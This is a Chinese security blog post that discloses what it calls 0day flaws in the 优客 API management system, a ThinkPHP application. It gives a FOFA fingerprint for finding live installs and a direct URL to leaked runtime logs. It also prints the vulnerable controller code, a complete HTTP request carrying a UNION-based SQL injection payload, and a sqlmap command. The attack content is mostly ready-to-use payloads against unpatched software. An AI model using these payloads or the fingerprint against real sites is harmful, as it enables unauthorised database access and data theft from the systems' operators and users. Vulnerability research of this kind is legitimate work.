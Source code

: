 #  (0day)全新优客API接口管理系统代码审计   
原创 Mstir  星悦安全   2024-11-12 03:43  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字关注我们 并设为  
星标  
## 0x00 前言  
  
**全新2024优客API接口管理系统，内置30+API接口，支持服务器信息，网站ICP备案，抖音无水印，QQ在线状态QQ头像，获取历史上的今天，IP签名档，ICO站标获，随机动漫图，网站标题获取，爱站权重获取，城市天气获取，随机一言，皮皮虾无水印，每日Bing壁纸，垃圾分类，查询手机号归属地，申通快递查询等接口功能.**  
  
**fofa指纹:"public/static/index/css/flaghome.css"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5fylhb95yo5Dxk0GWmW01OibqRphYicURXibEV1ePvcxGE9n39htWq3w3skLECYNS4D7fcNNLibj5FgDQ/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5fylhb95yo5Dxk0GWmW01Oib0oPU3BOXrtcrSV1sENiaeUOUNm6pic33sSED7upWibv9vftZnxAaZ8Amw/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5fylhb95yo5Dxk0GWmW01OiblP265TeVnV72KV0blbNicd6rAKPG7Kxmc85hm1HToPf26mqqvJvHuQw/640?wx_fmt=png&from=appmsg "")  
  
**框架:ThinkPHP 5.1.41 Debug:False**  
## 0x01 前台Log日志泄露漏洞  
##   
  
**该系统设置运行目录为根目录，且未对runtime 目录做限制，日志文件可被访问，导致漏洞产生.**  
  
**Payload (这种格式):**  
```
/runtime/log/202411/11.log
```  
  
**会记录一些包括SQL执行语句在内的敏感信息**![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fylhb95yo5Dxk0GWmW01OibcpFsarnE9Xe73WGWTgZsL8NO0xu8icicNnMQRUrtLeicrBO0x0sDjjDhg/640?wx_fmt=other&from=appmsg "")  
  
## 0x02 前台SQL注入漏洞  
##   
  
**位于 /index/controller/Index.php 控制器中的doc方法，通过POST传入id参数，并直接进入到SQL查询字句中，且无任何过滤，导致漏洞产生.**  
```
public function doc(){
  $doc = input('id');
  $api = Db::name('info')->where("doc='$doc'")->find();
  $info = Db::name('setup')->find();
  $list = $this->getTree();
  return $this->fetch('doc',[
                      'info' => $info,
                      'api' => $api,
                      'list' => $list
                      ]);
}
```  
  
**Payload:**  
```
POST /index/index/doc HTTP/1.1
Content-Length: 142
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Connection: close

id=') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(IFNULL(CAST(CURRENT_USER() AS NCHAR),0x20)),NULL-- -
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fylhb95yo5Dxk0GWmW01Oibn1OaewCibt0hwUpLQlUbaQrG4GhQTk3rB6smswPl5xqSpVRCJGbicFtA/640?wx_fmt=other&from=appmsg "")  
  
python sqlmap.py -r a.txt --level=3 --dbms=mysql  
标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转API源码关注公众号发送 241112 获取!免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!  
